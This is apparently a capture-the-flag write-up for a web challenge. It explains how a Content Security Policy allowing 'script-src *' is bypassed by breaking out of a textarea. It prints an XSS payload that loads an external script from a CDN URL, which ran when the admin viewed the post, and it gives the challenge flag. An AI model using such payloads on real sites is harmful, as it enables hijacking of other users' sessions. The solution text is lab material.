



---

## Description

We just learned about Content Security Policy and from now on we do not allow inline scripts. We are completely safe now.

`http://ssof2526.challenges.cwte.me:25254`

---

The website is the same, but this time we have CSP controlling what scripts we can run.



Doing a request to the website, I noticed the CSP was set to this:



Basically the `Content-Security-Policy -> script-src` means that the page allows scripts from any origin without restrictions.

Because of that I can simply create my malicious script and attach it to the textarea.

Like this:
`"</textarea><script src="https://cdn.jsdelivr.net/gh/piners63/bg@main/acb.js"></script>`

I used a random CDN server because using raw GitHub text was getting blocked.



## FLAG
```flag
SSof{Inline_Scripts_are_not_allowed_with_this_CSP}
```

---

## Conclusion

Even though the challenge said inline scripts were blocked, the CSP still allowed `script-src *`, so any external script could run. By breaking out of the `<textarea>` and loading my own script from a CDN linked to my GitHub, the payload executed when the admin viewed the post. This shows that blocking inline scripts isn't enough if external sources are still wide open.
